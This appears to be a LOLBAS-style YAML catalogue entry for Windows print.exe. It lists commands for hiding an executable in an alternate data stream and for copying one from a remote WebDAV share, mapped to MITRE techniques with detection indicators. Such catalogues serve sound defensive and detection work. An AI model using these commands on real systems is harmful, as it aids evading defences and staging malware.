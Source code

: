 ```yaml
---
Name: Print.exe
Description: Used by Windows to send files to the printer
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: print /D:C:\ADS\File.txt:file.exe C:\ADS\File.exe
    Description: Copy file.exe into the Alternate Data Stream (ADS) of file.txt.
    Usecase: Hide binary file in alternate data stream to potentially bypass defensive counter measures
    Category: ADS
    Privileges: User
    MitreID: T1096
    MitreLink: https://attack.mitre.org/wiki/Technique/T1096
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: print /D:C:\ADS\CopyOfFile.exe C:\ADS\FileToCopy.exe
    Description: Copy FileToCopy.exe to the target C:\ADS\CopyOfFile.exe
    Usecase: Copy files
    Category: Copy
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: print /D:C:\OutFolder\outfile.exe \\WebDavServer\Folder\File.exe
    Description: Copy File.exe from a network share to the target c:\OutFolder\outfile.exe.
    Usecase: Copy/Download file from remote server
    Category: Copy
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\print.exe
  - Path: C:\Windows\SysWOW64\print.exe
Code_Sample:
  - Code:
Detection:
  - IOC: Print.exe getting files from internet
  - IOC: Print.exe creating executable files on disk
Resources:
  - Link: https://twitter.com/Oddvarmoe/status/985518877076541440
  - Link: https://www.youtube.com/watch?v=nPBcSP8M7KE&lc=z22fg1cbdkabdf3x404t1aokgwd2zxasf2j3rbozrswnrk0h00410
Acknowledgement:
  - Person: Oddvar Moe
    Handle: "@oddvarmoe"
---
```

